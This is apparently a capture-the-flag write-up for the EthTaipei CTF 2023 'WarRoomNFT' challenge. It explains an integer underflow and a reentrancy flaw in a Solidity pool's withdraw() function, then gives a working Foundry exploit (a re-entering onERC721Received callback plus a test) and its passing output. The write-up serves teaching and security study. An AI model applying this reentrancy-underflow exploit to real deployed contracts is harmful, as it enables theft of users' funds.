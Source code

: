 # EthTaipei CTF 2023 - ETHTaipeiWarRoomNFT
- Scope  
    - NFT.sol  
    - Pool.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

### Vulnerability Details
1. The contract uses 0.7.0 which is susceptible to integer underflow
2. The `withdraw()` function does not use the 'Checks-Effects-Interaction', and allowing reentrancy.
```diff
-1 pragma solidity ^0.7.0;

function withdraw(uint256 tokenId) external {
        require(_userDeposits[msg.sender][tokenId], "Should be owner.");
        require(_balances[msg.sender] > 0, "Should have balance.");

-2        IERC721(NFTCollateral).safeTransferFrom(address(this), msg.sender, tokenId);
-2        _balances[msg.sender] -= 1 ether;
        delete _userDeposits[msg.sender][tokenId];
    }
```

### Impact/Proof of Concept
1. approve NFT
2. deposit NFT
3. withdraw = From 1 ether become 0 ether
4. onERC721Received() - transfer NFT over without using deposit
5. onERC721Received() - withdraw again = From 0 ether become 2^256 − 1 ether
```diff
bool done = false;

    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data) external override returns (bytes4) {
        pool = base.pool();
        nft = base.nft();
        // Include a boolean so that it perform once
        
        
        if(!done){
            done = true;
            nft.transferFrom(address(this), address(pool), 1);
            pool.withdraw(1);
        }
        
        return IERC721Receiver.onERC721Received.selector;
    }
    
    function test_Exploit() public {
        pool = base.pool();
        nft = base.nft();
        console.log("isSolved: ", pool.isSolved(address(this)));
        nft.approve(address(pool), 1);
        pool.deposit(1);
        pool.withdraw(1);
        console.log("isSolved: ", pool.isSolved(address(this)));
    }
```
Results:
```diff
[PASS] test_Exploit() (gas: 319319)
Logs:
  isSolved:  false
  isSolved:  true
```
